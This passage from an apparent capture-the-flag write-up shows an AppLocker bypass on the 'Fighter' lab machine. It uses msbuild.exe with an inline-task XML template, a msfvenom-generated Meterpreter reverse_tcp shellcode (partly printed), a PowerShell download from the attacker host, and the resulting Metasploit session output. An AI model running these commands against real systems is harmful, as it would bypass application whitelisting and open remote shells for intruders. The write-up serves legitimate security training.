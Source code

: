 ### AppLocker Bypass

#### msbuild

When I solved this box in 2018, I didn’t go to decoder, but rather bypassed Applocker to get a Meterpreter shell. A popular AppLocker bypass at the time of Fighter was using `msbuild.exe`, because it’s a legit trusted Windows executable that will take an XML file and run code from it.

I’ll grab a [template file](https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml), and run `msfvenom` to generate the shellcode:

```

oxdf@hacky$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=443 -f csharp -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of csharp file: 1831 bytes
byte[] shellcode = new byte[354] {
0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,
0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
...[snip]...
0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };

```

`-f csharp` puts it in the format needed for this template, and `-v shellcode` sets the output variable name to `shellcode`, to match the template. I’m using a Meterpreter payload so I can show the MSF version of the exploit later.

I’ll add that shellcode to the template, and save the file, and upload it to Fighter, and run it:

```

PS C:\programdata> iwr http://10.10.14.6/shellcode.xml -outfile sc.xml
PS C:\programdata> C:\Windows\microsoft.net\framework\v4.0.30319\msbuild.exe sc.xml

```

It just hangs, but at `msfconsole`, where I had a `exploit/multi/handler` listening, there’s a connection:

```

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.6:443 
[*] Sending stage (175174 bytes) to 10.10.10.72
[*] Meterpreter session 1 opened (10.10.14.6:443 -> 10.10.10.72:49175 )

meterpreter > 

```
